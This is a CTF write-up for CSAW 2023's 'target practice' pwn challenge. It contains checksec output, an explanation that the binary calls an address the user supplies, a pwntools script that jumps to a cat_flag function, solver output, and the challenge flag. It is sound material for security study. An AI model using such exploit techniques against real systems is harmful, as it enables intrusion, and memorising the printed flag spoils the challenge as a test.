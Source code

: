 # target practice

- source code: [CSAW-CTF-2023-Quals/pwn/target practice at main · osirislab/CSAW-CTF-2023-Quals](https://github.com/osirislab/CSAW-CTF-2023-Quals/tree/main/pwn/target%20practice)

## Setup

```bash
docker build -t csaw23/target_practice .
docker run --rm -p 31138:31138 csaw23/target_practice
```

## Flag

csawctf{y0ure_a_m4s7er4im3r}

## Solution

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/target practice# file target_practice
target_practice: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c2ae3c4733d9761d5043faa90d68371e52d74bc2, not stripped

root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/target practice# checksec target_practice
[*] '/root/ctf/CSAW-CTF-2023-Quals/pwn/target practice/target_practice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Input value is assigned as `%lx`
- Using the call instruction to call the function at the address specified as the input value.
- `cat_flag` is the function which executes `system("cat /flag.txt");`

So, the solution is to specify `cat_flag` address as hex format (e.g. 0xdeadbeef).

solver-target_practice.py

```python
from pwn import *

elf = ELF("./target_practice")

if args.REMOTE:
    io = remote("localhost", 31138)
else:
    io = elf.process()

cat_flag = elf.symbols["cat_flag"]

payload = b""
payload += hex(cat_flag).encode()

io.sendline(payload)
io.interactive("")
```

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/target practice# python3 solver-target_practice.py REMOTE
[*] '/root/ctf/CSAW-CTF-2023-Quals/pwn/target practice/target_practice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to localhost on port 31138: Done
[*] Switching to interactive mode
Aim carefully.... csawctf{y0ure_a_m4s7er4im3r}[*] Got EOF while reading in interactive

[*] Closed connection to localhost port 31138
```
